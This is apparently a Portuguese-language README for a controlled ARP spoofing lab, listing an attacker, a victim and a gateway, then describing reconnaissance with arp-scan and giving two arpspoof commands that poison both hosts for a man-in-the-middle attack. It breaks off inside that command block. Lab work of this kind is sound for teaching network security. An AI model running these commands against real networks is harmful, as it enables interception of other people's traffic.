

# 🕵️ ARP Spoofing Lab - Demonstração de Ataque Man-in-the-Middle

> **Objetivo**: Simular e analisar um ataque de ARP spoofing em ambiente controlado para demonstrar vulnerabilidades em redes locais.

## 🔧 Topologia do Laboratório
| Componente    | Especificações               | Papel         |
|---------------|------------------------------|---------------|
| Atacante      | Kali Linux 2025.2            | Realiza o ataque |
| Vítima        | Metasploitable2              | Dispositivo alvo |
| Gateway       | Ubuntu Server 24.04          | Roteador local |

## Diagrama de Rede


## ⚡ Etapas do Ataque
1. **Reconhecimento**:
   - Mapeamento da rede com `arp-scan`
   - Identificação de vítima e gateway

2. **Ataque ARP Spoofing**:
   ```bash
   arpspoof -i eth0 -t 192.168.100.20 192.168.100.30
   arpspoof -i eth0 -t 192.168.100.30 192.168.100.20